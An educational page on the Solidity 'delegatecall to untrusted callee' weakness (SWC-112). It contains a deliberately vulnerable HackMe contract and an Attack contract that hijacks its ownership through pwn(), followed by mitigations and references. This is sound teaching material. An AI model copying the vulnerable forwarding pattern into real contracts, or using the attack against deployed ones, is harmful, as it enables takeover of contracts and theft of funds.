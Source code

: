 ## Delegatecall to Untrusted Callee

`Delegatecall` is a special variant of a message call. It is almost identical to a regular message call except the target address is executed in the context of the calling contract and `msg.sender` and `msg.value` remain the same. Essentially, `delegatecall` delegates other contracts to modify the calling contract's storage.

Since `delegatecall` gives so much control over a contract, it's very important to only use this with trusted contracts such as your own. If the target address comes from user input, be sure to verify that it is a trusted contract.

### Example

Consider the following contracts where `delegatecall` is misused, leading to a vulnerability:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.16;

contract Lib {
    address public owner;

    function pwn() public {
        owner = msg.sender;
    }
}

contract HackMe {
    address public owner;
    Lib public lib;

    constructor(Lib _lib) {
        owner = msg.sender;
        lib = Lib(_lib);
    }

    fallback() external payable {
        address(lib).delegatecall(msg.data);
    }
}

contract Attack {
    address public hackMe;

    constructor(address _hackMe) {
        hackMe = _hackMe;
    }

    function attack() public {
        hackMe.call(abi.encodeWithSignature("pwn()"));
    }
}
```

In this example, the `HackMe` contract uses `delegatecall` to forward any call it receives to the `Lib` contract. The `Attack` contract then uses this vulnerability to call the `pwn()` function of `Lib` through the `HackMe` contract, thus changing the owner of `HackMe` contract to the attacker. This demonstrates the dangers of using delegatecall with untrusted callees.

### Mitigations

To mitigate the risks associated with `delegatecall` to untrusted callees, consider the following strategies:

1. **Whitelist Trusted Contracts**: Ensure that the target address for `delegatecall` is a contract you control or a contract that is part of a verified and trusted list.

2. **Limit the Scope of Delegatecall**: Use `delegatecall` only for specific, controlled operations. Avoid exposing it as a general-purpose function unless absolutely necessary.

### Sources

- [SWC Registry: SWC-112](https://swcregistry.io/docs/SWC-112)
- [Solidity Documentation: Delegatecall](https://solidity.readthedocs.io/en/latest/introduction-to-smart-contracts.html#delegatecall-callcode-and-libraries)
- [Sigma Prime: Solidity Security](https://blog.sigmaprime.io/solidity-security.html#delegatecall)
- [Ethereum Stack Exchange: Difference Between Call, Callcode, and Delegatecall](https://ethereum.stackexchange.com/questions/3667/difference-between-call-callcode-and-delegatecall)